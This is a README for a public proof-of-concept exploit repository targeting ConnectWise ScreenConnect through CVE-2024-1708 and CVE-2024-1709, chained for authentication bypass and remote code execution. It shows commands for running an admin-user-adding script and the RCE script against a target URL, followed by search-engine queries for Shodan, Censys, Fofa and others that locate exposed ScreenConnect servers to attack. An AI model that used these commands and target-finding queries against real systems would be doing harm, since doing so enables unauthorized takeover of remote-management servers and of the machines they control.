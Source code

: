 # How to use

I'm using `Python3.9`.

```
pip install requests
# python check.py
python batchAdduser.py
```

![](https://github.com/W01fh4cker/ScreenConnect-AuthBypass-POC-EXP/assets/101872898/9f9be7be-d607-4fcf-97dc-2d8a4939db5e)

```text
python ScreenConnect-AuthBypass-RCE.py -h

usage: ScreenConnect-AuthBypass-RCE.py [-h] [-u USERNAME] [-p PASSWORD] -t TARGET [-d DOMAIN] [--proxy PROXY]
                                                                                                             
CVE-2024-1708 && CVE-2024-1709 --> RCE!!!                                                                    
                                                                                                             
optional arguments:                                                                                          
  -h, --help            show this help message and exit                                                      
  -u USERNAME, --username USERNAME                                                                           
                        username you want to add                                                             
  -p PASSWORD, --password PASSWORD
                        password you want to add
  -t TARGET, --target TARGET
                        target url
  -d DOMAIN, --domain DOMAIN
                        Description of domain
  --proxy PROXY         eg: http://127.0.0.1:8080
```
For example:
```shell
python ScreenConnect-AuthBypass-RCE.py -t http://192.168.9.100
```

![](https://github.com/W01fh4cker/ScreenConnect-AuthBypass-POC-EXP/assets/101872898/c6d6a60e-433f-4f80-807d-dc7bc061cb96)

# Cyberspace mapping statement

## Odin

```
services.modules.http.headers.server:"screenconnect"
```

## Zoomeye
```
app:"ScreenConnect Remote Management Software"
```

## Censys

```
services.http.response.headers:(key: `Server` and value.headers: `ScreenConnect`)
```

## Shodan

```
"Server: ScreenConnect"
```

## Hunter.how

```
product.name="ConnectWise ScreenConnect software"
```

## Fofa

```
app="ScreenConnect-Remote-Support-Software"
```

# Reference

https://www.connectwise.com/company/trust/security-bulletins/connectwise-screenconnect-23.9.8

https://github.com/watchtowrlabs/connectwise-screenconnect_auth-bypass-add-user-poc
